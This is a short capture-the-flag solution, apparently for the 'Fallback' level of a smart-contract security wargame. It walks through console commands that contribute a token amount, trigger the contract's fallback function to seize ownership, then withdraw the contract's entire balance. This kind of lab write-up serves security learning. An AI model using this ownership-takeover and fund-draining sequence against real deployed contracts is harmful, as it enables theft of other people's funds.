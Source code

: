 # Fallback

* What are the areas that you can transfer ownership of the contract?
* What are the necessary conditions that need to be met in order for that to happen?


<details>
  <summary>EXPAND FOR SOLUTION</summary>
  <p>
First function that allows ownership is contribute()
    — has to contribute more than the owner.

`await contract.owner()`

the mapping address is in the top with “contributions”. Pass an address to see the amount.

`await contract.contributions("ADDRESSOFOWNER")`

Shows a large amount - 10000000 - yikes!

Another way to set the owner is through the callback function.

It requires two things: that we send it some value, and that our contribution is greater than zero. Let’s look at our contributions.

`await contract.contributions(player)`

Ohs noes - we have zero. So we need to add some contributions.

`await contract.contribute({value:1})`

Great we have a token. Now let’s send a value to the callback function.

`contract.sendTransaction({value:1})`

Are we the owner now?

`await contract.owner()`

Yes!!! Now let’s liquidate!

`contract.withdraw()`

Now lets check the balance.

`await getBalance(contract.address)`
  </p>
</details>
